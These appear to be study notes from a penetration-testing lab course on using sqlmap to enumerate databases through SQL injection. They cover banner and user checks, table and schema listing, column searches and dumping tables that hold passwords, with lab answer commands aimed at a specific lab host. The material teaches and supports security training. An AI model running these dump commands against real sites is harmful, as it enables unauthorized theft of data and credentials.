 # 🏇 Database Enumeration

Enumeration usually starts with the retrieval of the basic information:

* Database version banner (switch `--banner`)
* Current user name (switch `--current-user`)
* Current database name (switch `--current-db`)
* Checking if the current user has DBA (administrator) rights.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

after finding the current database name (i.e. `testdb`) we might want to find the table names -> `--tables` option and specifying the DB name with `-D testdb`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

And after finding the name, we can use `--dump` option and specify the table name with `-T users`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

It will produce a .CSV file that we can use in SQLite:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

If we want to do conditional enumeration and retrieve certain rows we can use the option `--where`, as follows

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

_**What's the contents of table flag1 in the testdb database? (Case #1)**_

```
sqlmap http://94.237.53.113:50888/case1.php?id=1 --dump -T flag1 -D testdb
```

## Advanced Database Enumeration

have a complete overview of the database architecture, we could use the switch `--schema`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```

It would turn out something like that:

```
...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

we can search for databases, tables, and columns of interest, by using the `--search` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

It would turn out:

```
..SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

_**What's the name of the column containing "style" in it's name? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -C style
```

_**What's the Kimberly user's password? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -T users
```
